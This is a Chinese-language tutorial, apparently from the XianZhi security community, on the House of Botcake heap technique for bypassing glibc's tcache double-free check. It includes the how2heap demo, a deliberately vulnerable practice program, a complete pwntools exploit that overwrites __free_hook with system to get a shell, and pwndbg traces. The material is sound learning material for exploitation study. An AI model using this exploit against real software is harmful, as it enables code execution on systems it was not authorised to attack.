





# 基于house_of_botcake的绕过tcachebin保护的攻击-先知社区

> **来源**: https://xz.aliyun.com/news/16159  
> **文章ID**: 16159

---

# 基于house\_of\_botcake的绕过tcachebin保护的攻击

## tcache新增保护机制

在glibc刚加入tcache机制时，也就是2.27版本下，tcache几乎没有保护机制，在后续的2.31版本，加入的对于double free的检测，也就是当一个chunk被放入tcachebin中的时候，其bk指针处会被设置为tcache\_key，每次程序把 new free chunk 放入 tcache 前，都会检查一下它是否携带有 key 值，如果已经带有key值的话，就会产生报错

## 绕过方式

主要有以下三种：

1. 修改掉一个已经进入tcachebin的chunk的bk指针处的key，以此来绕过保护
2. 修改已经进入tcachebin中的chunk的size，使其被再次free时进入其他的tcache链表
3. 使用House of botcake

第一种和第三种利用的频率较高

## 利用流程

### How2heap中的botcake

源码如下：

```
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>


int main()
{
    /*
     * This attack should bypass the restriction introduced in
     * https://sourceware.org/git/?p=glibc.git;a=commit;h=bcdaad21d4635931d1bd3b54a7894276925d081d
     * If the libc does not include the restriction, you can simply double free the victim and do a
     * simple tcache poisoning
     * And thanks to @anton00b and @subwire for the weird name of this technique */

    // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // introduction
    puts("This file demonstrates a powerful tcache poisoning attack by tricking malloc into");
    puts("returning a pointer to an arbitrary location (in this demo, the stack).");
    puts("This attack only relies on double free.\n");

    // prepare the target
    intptr_t stack_var[4];
    puts("The address we want malloc() to return, namely,");
    printf("the target address is %p.\n\n", stack_var);

    // prepare heap layout
    puts("Preparing heap layout");
    puts("Allocating 7 chunks(malloc(0x100)) for us to fill up tcache list later.");
    intptr_t *x[7];
    for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
        x[i] = malloc(0x100);
    }
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);

    // cause chunk overlapping
    puts("Now we are able to cause chunk overlapping");
    puts("Step 1: fill up tcache list");
    for(int i=0; i<7; i++){
        free(x[i]);
    }
    puts("Step 2: free the victim chunk so it will be added to unsorted bin");
    free(a);

    puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
    free(prev);

    puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
    malloc(0x100);
    /*VULNERABILITY*/
    free(a);// a is already freed
    /*VULNERABILITY*/

    // simple tcache poisoning
    puts("Launch tcache poisoning");
    puts("Now the victim is contained in a larger freed chunk, we can do a simple tcache poisoning by using overlapped chunk");
    intptr_t *b = malloc(0x120);
    puts("We simply overwrite victim's fwd pointer");
    b[0x120/8-2] = (long)stack_var;

    // take target out
    puts("Now we can cash out the target chunk.");
    malloc(0x100);
    intptr_t *c = malloc(0x100);
    printf("The new chunk is at %p\n", c);

    // sanity check
    assert(c==stack_var);
    printf("Got control on target/stack!\n\n");

    // note
    puts("Note:");
    puts("And the wonderful thing about this exploitation is that: you can free b, victim again and modify the fwd pointer of victim");
    puts("In that case, once you have done this exploitation, you can have many arbitary writes very easily.");

    return 0;
}

```

总结一下：

我们先把申请9（index为0-8）个相同大小的chunk，然后free其中7个来把tcachebin的某个链表填满

然后申请一个用于隔绝topchunk的任意大小chunk，那么8号chunk就是我们要攻击的chunk

我们先free8号chunk来把它挂进unsortedbin中，然后再free7号chunk，触发unsortedbin的合并

此时申请从挂满chunk的链表中申请出一个chunk来给8号chunk腾出位置

此时再free8号chunk就能把8号chunk挂进tcache，因为此时8号chunk的bk指针处是main\_arena附近的内容，正好可以绕过tcache\_key的检测，就能够成功的构造double\_free

此时bin中存在一个合并后的chunk，这个chunk是7号和8号合并的结果，我们可以申请一个大小合适的chunk来分割这个合并的chunk，从而覆盖掉8号chunk的fd指针来完成tcache poisoning的攻击

### 例题分析

我们从一个例题来看看攻击流程，下面是源码

```
#include<stdio.h> 
#include <unistd.h> 
#define num 80
void *chunk_list[num];
int chunk_size[num];

void init()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}

void menu()
{
    puts("1.add");
    puts("2.edit");
    puts("3.show");
    puts("4.delete");
    puts("5.exit");
    puts("Your choice:");
}


int add()
{
    int index,size;
    puts("index:");
    scanf("%d",&index);
    puts("Size:");
    scanf("%d",&size);
    chunk_list[index] = malloc(size);
    chunk_size[index] = size;
}

int edit()
{
    int size;
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("size:");
    scanf("%d",&size);
    puts("context: ");
    read(0,chunk_list[index],size);
}

int delete()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    free(chunk_list[index]);
}

int show()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("context: ");
    puts(chunk_list[index]);
}


int main()
{
    int choice;
    init();
    while(1){
        menu();
        scanf("%d",&choice);
        if(choice==5){
            exit(0);
        }
        else if(choice==1){
            add();
        }
        else if(choice==2){
            show();
        }
        else if(choice==3){
            edit();
        }
        else if(choice==4){
            delete();
        }
    }
}

```

这是我自己写的一个heap调试程序,每个功能都有，uaf，堆溢出，只能打botcake的题目肯定不会给这么多条件

可能只有一次uaf之类的

下面是exp

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
fn='./test'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
eir = 0
if eir == 1:
    p=remote("",)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)

def open_gdb_terminal():
    pid = p.pid
    gdb_cmd = f"gdb -ex 'attach {pid}' -ex 'set height 0' -ex 'set width 0'"
    subprocess.Popen(["gnome-terminal", "--geometry=120x64+0+0", "--", "bash", "-c", f"{gdb_cmd}; exec bash"])

def dbg():
    open_gdb_terminal()
    pause()


sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda : u64(p.recv(6).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))

def menu(choice):
    sla("Your choice:\n",str(choice))
def add(index,size):
    menu(1)
    sla("index:\n",str(index))
    sla("Size:\n",str(size))
def dele(index):
    menu(2)
    sla("index:\n",str(index))

def edit(index,size,content):
    menu(3)
    sla("index:\n",str(index))
    sla("size:\n",str(size))
    sa("context: \n",content)

def show(index):
    menu(4)
    sla("index:\n",str(index))

for i in range(9):
    add(i,0x80)
for i in range(7):
    dele(i)
add(9,0x10)
edit(9,0x10,b'/bin/sh\x00')
dele(8)
show(8)
libc_base=l64()-0x1ecbe0
free_hook=libc_base+libc.sym['__free_hook']
system=libc_base+libc.sym['system']
dele(7)
add(10,0x80)
dele(8)
add(11,0xa0)
edit(11,0xa0,b'a'*0x80+p64(0)+p64(0x91)+p64(free_hook))
add(12,0x80)
add(13,0x80)
edit(13,0x10,p64(system))
dele(9)
ita()

```

下面我们跟着exp调试一下

#### Step1

```
for i in range(9):
    add(i,0x80)
for i in range(7):
    dele(i)
add(9,0x10)
edit(9,0x10,b'/bin/sh\x00')
dele(8)
show(8)
libc_base=l64()-0x1ecbe0
free_hook=libc_base+libc.sym['__free_hook']
system=libc_base+libc.sym['system']

```

我们在这一步后面下好断点

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x32c11000
Size: 0x291

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c11290
Size: 0x91
fd: 0x00

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c11320
Size: 0x91
fd: 0x32c112a0

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c113b0
Size: 0x91
fd: 0x32c11330

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c11440
Size: 0x91
fd: 0x32c113c0

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c114d0
Size: 0x91
fd: 0x32c11450

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c11560
Size: 0x91
fd: 0x32c114e0

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c115f0
Size: 0x91
fd: 0x32c11570

Allocated chunk | PREV_INUSE
Addr: 0x32c11680
Size: 0x91

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x32c11710
Size: 0x91
fd: 0x7fc804ca6be0
bk: 0x7fc804ca6be0

Allocated chunk
Addr: 0x32c117a0
Size: 0x20

Top chunk | PREV_INUSE
Addr: 0x32c117c0
Size: 0x20841

pwndbg> bin
tcachebins
0x90 [  7]: 0x32c11600 —▸ 0x32c11570 —▸ 0x32c114e0 —▸ 0x32c11450 —▸ 0x32c113c0 —▸ 0x32c11330 —▸ 0x32c112a0 ◂— 0x0
fastbins
empty
unsortedbin
all: 0x32c11710 —▸ 0x7fc804ca6be0 (main_arena+96) ◂— 0x32c11710
smallbins
empty
largebins
empty

```



tcache的一条链被填满的同时，8号chunk也进入了unsortedbin，使用uaf来泄露libc地址

#### Step2

释放7号chunk，使其和8号chunk合并

```
Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c115f0
Size: 0x91
fd: 0x32c11570

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x32c11680
Size: 0x121
fd: 0x7fc804ca6be0
bk: 0x7fc804ca6be0

Allocated chunk
Addr: 0x32c117a0
Size: 0x20

Top chunk | PREV_INUSE
Addr: 0x32c117c0
Size: 0x20841

pwndbg> bin
tcachebins
0x90 [  7]: 0x32c11600 —▸ 0x32c11570 —▸ 0x32c114e0 —▸ 0x32c11450 —▸ 0x32c113c0 —▸ 0x32c11330 —▸ 0x32c112a0 ◂— 0x0
fastbins
empty
unsortedbin
all: 0x32c11680 —▸ 0x7fc804ca6be0 (main_arena+96) ◂— 0x32c11680
smallbins
empty
largebins
empty

```



可以看到8号chunk已经合并，而且fd和bk也是我们能够绕过tcache\_key的内容，这是由于前向合并的原因，8号chunk的fd和bk赋值给了地址相邻的chunk7的fd和bk

#### Step3

从链表中取出一个chunk给chunk8腾出位置，同时dele8号chunk来把它挂进tcachebin中

```
Free chunk (tcachebins) | PREV_INUSE
Addr: 0x32c11560
Size: 0x91
fd: 0x32c114e0

Allocated chunk | PREV_INUSE
Addr: 0x32c115f0
Size: 0x91

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x32c11680
Size: 0x121
fd: 0x7fc804ca6be0
bk: 0x7fc804ca6be0

Allocated chunk
Addr: 0x32c117a0
Size: 0x20

Top chunk | PREV_INUSE
Addr: 0x32c117c0
Size: 0x20841

pwndbg> bin
tcachebins
0x90 [  7]: 0x32c11720 —▸ 0x32c11570 —▸ 0x32c114e0 —▸ 0x32c11450 —▸ 0x32c113c0 —▸ 0x32c11330 —▸ 0x32c112a0 ◂— 0x0
fastbins
empty
unsortedbin
all: 0x32c11680 —▸ 0x7fc804ca6be0 (main_arena+96) ◂— 0x32c11680
smallbins
empty
largebins
empty
pwndbg>

```



可以看到，在两种bin的链表中都有chunk8，此时如果我们将chunk8的fd指针进行修改，也就是进行tcache poisoning攻击的话，就能申请到任意位置的chunk了

#### Step4

```
add(11,0xa0)
edit(11,0xa0,b'a'*0x80+p64(0)+p64(0x91)+p64(free_hook))

```

我们add一个大chunk，由于大小的问题，这个chunk会从unsortedbin中的切割得到，由于chunk7和chunk8物理相邻，我们可以覆写写到chunk8的fd指针，从而进行tcache poisonging攻击



可以看到，此时的tcachebin的链表已经变成了我们想要的样子，此时再add两个0x80大小的chunk就能写到free\_Hook处了

#### Step5

```
add(12,0x80)
add(13,0x80)
edit(13,0x10,p64(system))

```



可以看到，free\_hook处已经变成了我们想要的system，即可getshell
